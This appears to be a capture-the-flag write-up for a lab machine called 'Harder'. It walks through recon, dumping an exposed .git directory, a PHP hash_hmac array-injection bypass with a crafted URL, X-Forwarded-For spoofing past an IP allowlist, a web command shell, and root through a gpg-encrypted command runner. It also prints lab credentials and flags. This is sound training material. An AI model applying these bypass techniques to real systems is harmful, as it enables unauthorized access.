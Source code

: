 > Harder

# Nmap

nmap -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```bash
2/tcp  open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
22/tcp open  ssh     syn-ack OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    syn-ack nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0
|_http-title: Error
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Our hint was to carefully go through the requests. OK! I used curl to llok at the request we can also use burp too!

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Tue, 29 Jun 2021 06:59:06 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
X-Powered-By: PHP/7.3.19
Set-Cookie: TestCookie=just+a+test+cookie; expires=Tue, 29-Jun-2021 07:59:06 GMT; Max-Age=3600; path=/; domain=pwd.harder.local; secure
```

Here we have a hostname `pwd.harder.local`. Let's add it to our localhost!

# Gobuster

gobuster dir -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster/initial

```bash
Error: the server returns a status code that matches the provided options for non existing urls. http://10.10.81.138/6374aa39-ff90-4352-bd52-4d035db05c87 => 200 (Length: 1985). To continue please exclude the status code, the length or use the --wildcard switch
```

Let's move onto pwd.harder.local

gobuster dir -u http://pwd.harder.local -w /usr/share/wordlists/dirb/common.txt -o gobuster/pwd

```bash
/.git/HEAD            (Status: 200) [Size: 23]
/index.php            (Status: 200) [Size: 19926]
```

Accessing `pwd.harder.local` we are prompted with login. Trying `admin`:`admin` we are in! But we are prompted with a message.

```
extra security in place. our source code will be reviewed soon ...
```

Now we can investigate the .git directory. Let's use GitHack ti dump files in .git directory.

python /opt/GitHack/GitHack.py http://pwd.harder.local/.git

```bash
[+] Download and parse index file ...
.gitignore
auth.php
hmac.php
index.php
[OK] hmac.php
[OK] index.php
[OK] .gitignore
[OK] auth.php
```

Looking at all files the most interesting one is hmac.php. It has a function `hash_hmac` which we can try to abuse. Looking at it's functionality it takes strings as input and if something is wrong we are given a boolean value - false. Let's take a look at our code.

```php
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
```

We can force this function to generate false as it’s output, using the n parameter. If n is set then the $secret will contain some value. And after we get the value for $secret as false we can then bypass other if-else branch and get access to the system using h and host parameters as such.

```php
<?php
$secret = hash_hmac('sha256', 'hacker.com', false);
print($secret)
?>
```

And we got `e86f889ce1872bcb2d54e7145c1a4b4d85ee32fdf4223ac345106a212f70b2bc`. Now we can craft a url with paramteres similar to `$hm = hash_hmac('sha256', $_GET['host'], $secret);`

```
n[]=[1]
h=e86f889ce1872bcb2d54e7145c1a4b4d85ee32fdf4223ac345106a212f70b2bc
host=hacker.com
```

Accessing this url `http://pwd.harder.local/index.php?n[]=[0]&h=e86f889ce1872bcb2d54e7145c1a4b4d85ee32fdf4223ac345106a212f70b2bc&host=hacker.com` we have a login with cleartext password!

```
URL: http://shell.harder.local
Username: evs
Password(ClearText): 9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm
```

When we try to use the above creds we are prompted with an error message.

`Your IP is not allowed to use this webservice. Only 10.10.10.x is allowed`

Let's capture the request and use X-Forwaded-For Header. Go to options of Proxy tab and add a new record to Match and Replace.

```
Type: Request Header
Match:
Replace: X-Forwarded-For: 10.10.10.100
```
And now every request is appended with `X-Forwarded-For: 10.10.10.100`. And in the webpage looks like we can run commands. 

# user flag - cat /home/evs/user.txt

```
7e88bf11a579dc5ed66cc798cbe49f76
```

I tried to get a shell using nc but failed. So looking for priv esc, I ran find command to find file user www can execute.

find / -user www => It gave us many results but one caught my eye

```
/etc/periodic/15min/evs-backup.sh
```

```bash
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "U6j1brxGqbsUA$pMuIodnb$SZB4$bw14"
```

We can now ssh as evs! Let's look for some priv esc.

```bash
find / -type f -name "*.sh" 2> /dev/null

/usr/bin/findssl.sh
/usr/local/bin/run-crypted.sh
/etc/periodic/15min/evs-backup.sh
```

What is `/usr/local/bin/run-crypted.sh`?

```bash
#!/bin/sh

if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi
```

Looks like there may be a gpg key. Let's find it!

```bash
find / -name root@harder.local* 2>/dev/null

/var/backup/root@harder.local.pub
```

Now import!!!

```bash
gpg --import /var/backup/root@harder.local.pub
gpg: directory '/home/evs/.gnupg' created
gpg: keybox '/home/evs/.gnupg/pubring.kbx' created
gpg: /home/evs/.gnupg/trustdb.gpg: trustdb created
gpg: key C91D6615944F6874: public key "Administrator <root@harder.local>" imported
gpg: Total number processed: 1
gpg:               imported: 1
```

Now let's follow the steps to execute the commands

1. echo -n cat /root/root.txt > command
2. gpg -er root command
3. execute-crypted command.gpg

# root.txt

```
3a7bd72672889e0756b09f0566935a6c
```